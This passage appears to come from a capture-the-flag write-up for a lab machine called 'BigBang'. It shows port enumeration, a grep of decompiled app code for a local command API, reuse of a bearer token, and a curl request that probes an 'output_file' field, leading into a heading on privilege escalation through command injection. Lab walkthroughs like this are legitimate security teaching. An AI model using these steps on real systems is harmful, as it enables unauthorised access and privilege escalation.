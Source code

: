 ```bash
netstat -tupln

tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -
```
So we can also do a grep in the source code 

```bash
$ grep -R 9090 *
smali/q0/b.smali:    const-string v3, "http://app.bigbang.htb:9090/command"
smali/u/f.smali:    const-string v9, "http://app.bigbang.htb:9090/command"
smali/u/f.smali:    const-string v9, "http://app.bigbang.htb:9090/login"
```
So now we can just try to authenticate with developer creds

![alt text](../assets/image_bigbang/gettoken.png)

And nice we have a token, let's try to use it :

```bash
curl -X POST http://localhost:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzkxNDczNCwianRpIjoiYmM3ZmFlNWEtMjc1MC00MmI4LWI3NTMtNGIxYzg0ZTU5ZjU3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzkxNDczNCwiY3NyZiI6IjA2YzUzNjgwLTVhZjctNGM2OS05MjcyLWRhMzdiYjk3YWQzZSIsImV4cCI6MTczNzkxODMzNH0.AO36KBuXRYE6_8XzjL6BGwes5xbhENXcZkQvLZWmSDo" --data '{"command":"send_image", "output_file": "/tmp/"}'
{"error":"Error generating image: "}
```
Ok so the token is working but not the "command"

## PE with command injection

We can debug it with pspy64 like this 

